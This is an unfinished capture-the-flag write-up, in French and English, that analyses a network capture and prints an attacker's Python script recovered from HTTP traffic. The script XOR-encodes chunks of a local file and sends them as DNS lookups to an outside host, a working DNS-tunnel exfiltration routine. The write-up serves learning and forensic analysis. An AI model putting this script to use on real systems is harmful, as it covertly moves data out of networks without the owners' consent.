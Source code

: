 # Old EXFIL but Gold

### SUBJECT

Nous soupçonnons une exfiltration de données.  
Nous avons capturé des données réseaux, à vous d'extraire le lien pour la prochaine étape !

We suspect data exfiltration.  
We have captured network data, it's up to you to extract the link for the next step !

### EXPLORING THE .PCAP
On the challenge page, we download a `.pcap` file.  
First reflex, open it in Wireshark in order to inspect its content.  

![ch02 Wireshark](/images/ch02-wireshark.png)

This file contains a record of network frames at a certain time.  
We can quickly isolate 3 different protocols:  
- TCP
- HTTP
- DNS

These protocols will be useful for us because their functions and uses allow certain processes that we will discover later.  

The HTTP packets being in clear, we filter them and analyze their contents.  

![ch02 http filter](/images/ch02-httpfilter.png)

We can observe that in the infos, there are two requests of type `GET` sending from the source, then completed by the various TCP packets containing the response, followed (if all went well) by an HTTP 200 OK packet from the destination.
The first request ask for the page `/index.html`, constituted as below (after extracting the source code contained in clear in the request):

---

> Code

![ch02 index.html code](/images/ch02-indexhtmlraw.png)

> Rendering

![ch02 index.html](/images/ch02-indexhtml.png)

---

Given the following request, we can imagine that the attacker then downloaded the `dnstunnel.py` file.  
The advantage of HTTP being for us that the request is in clear, we have the possibility of seeing the content of this file and therefore the source code.  

![ch02 python code](/images/ch02-pythoncode.png)

We extract it and paste it into our favorite IDE to inspect the code and continue our journey.  

### READING AND UNDERSTANDING CODE

Here is the code we have in our hands :  

```python
#!/usr/bin/python3 
# I have no idea of what I'm doing 
 
#Because why not! 
import random 
import os 
 
f = open('data.txt','rb') 
data = f.read() 
f.close()

print("[+] Sending %d bytes of data" % len(data)) 

#This is propa codaz 
print("[+] Cut in pieces ... ") 

def encrypt(l): 
    #High quality cryptographer! 
    key = random.randint(13,254) 
    output = hex(key)[2:].zfill(2)
    for i in range(len(l)): 
        aes = ord(l[i]) ^ key 
        #my computer teacher hates me 
        output += hex(aes)[2:].zfill(2) 
    return output 

def udp_secure_tunneling(my_secure_data): 
    #Gee, I'm so bad at coding 
    #if 0: 
    mycmd = "host -t A %s.local.tux 172.16.42.222" % my_secure_data 
    os.system(mycmd) 
    #We loose packet sometimes? 
    os.system("sleep 1") 
    #end if 

def send_data(s): 
    #because I love globals 
    global n 
    n = n+1 
    length = random.randint(4,11) 
    # If we send more bytes we can recover if we loose some packets? 
    redundancy = random.randint(2,16) 
    chunk = data[s:s+length+redundancy].decode("utf-8") 
    chunk = "%04d%s"%(s,chunk) 
    print("%04d packet --> %s.local.tux" % (n,chunk)) 
    blob = encrypt(chunk) 
    udp_secure_tunneling(blob) 
    return s + length 
 
cursor = 0 
n=0 
while cursor<len(data): 
    cursor = send_data(cursor) 
 
#Is it ok? 
```

_Continued write-up tomorrow, 'going to sleep.._
